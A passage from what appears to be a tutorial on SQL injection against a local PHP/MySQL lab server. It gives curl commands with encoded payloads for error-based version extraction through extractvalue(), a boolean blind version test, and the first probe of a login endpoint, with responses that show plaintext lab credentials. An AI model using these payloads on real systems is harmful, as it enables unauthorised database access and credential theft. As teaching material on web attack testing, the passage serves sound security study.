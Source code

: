From here, we can start crafting payloads with full awareness of how they will be interpreted.

### Extracting MySQL Version with Error-Based Injection

Next, we test whether the database leaks internal data through error output. MySQL’s `extractvalue()` function can be abused to include arbitrary strings in an error message. We embed the result of `version()` into that output.

```bash
curl "http://127.0.0.1:8080/page.php?id=1%27%20AND%20extractvalue(1,concat(0x7e,version(),0x7e))%20--%20"
```

If error-based injection is possible, we see something like:

```
XPATH syntax error: '~8.0.43~'
```

This confirms the database is MySQL 8.0.43. Version-specific behaviors—like function support and escaping rules—now become part of our payload design.

### Identifying the Database Without Errors

If the application hides SQL errors, we can still confirm details using boolean logic. MySQL will evaluate our condition even when it does not return the result. We can test one character of the version string at a time and infer the value from the HTTP response.

To avoid shell parsing issues, we URL-encode special characters:

```bash
curl -i "http://127.0.0.1:8080/item.php?id=1%27%20AND%20substring(version(),1,1)=%278%27%20--%20"

HTTP/1.1 200 OK
Host: 127.0.0.1:8080
Date: Sat, 09 Aug 2025 03:50:52 GMT
Connection: close
X-Powered-By: PHP/8.3.6
Content-type: text/plain;charset=UTF-8

OK
```

The server responds with HTTP 200 as the condition is true.

We now know which syntax and functions to use in the attack phase.

## Attacking the Mysql/Php Stack

We begin by establishing baseline behavior for the target endpoint.

The `login.php` page accepts `user` and `pass` parameters and checks credentials against the database.

We first send a valid request to confirm the query executes as expected:

```bash
curl "http://127.0.0.1:8080/login.php?user=admin&pass=admin123"

<pre>SELECT * FROM users WHERE username = 'admin' AND password = 'admin123'</pre><p>Login OK</p><table border=1 cellpadding=6 cellspacing=0><tr><th>id</th><th>username</th><th>password</th><th>email</th><th>role</th><th>created_at</th></tr><tr><td>1</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:12:35</td></tr><tr><td>7</td><td>admin</td><td>admin123</td><td>admin@test.com</td><td>admin</td><td>2025-08-08 03:49:07</td></tr></table>
```
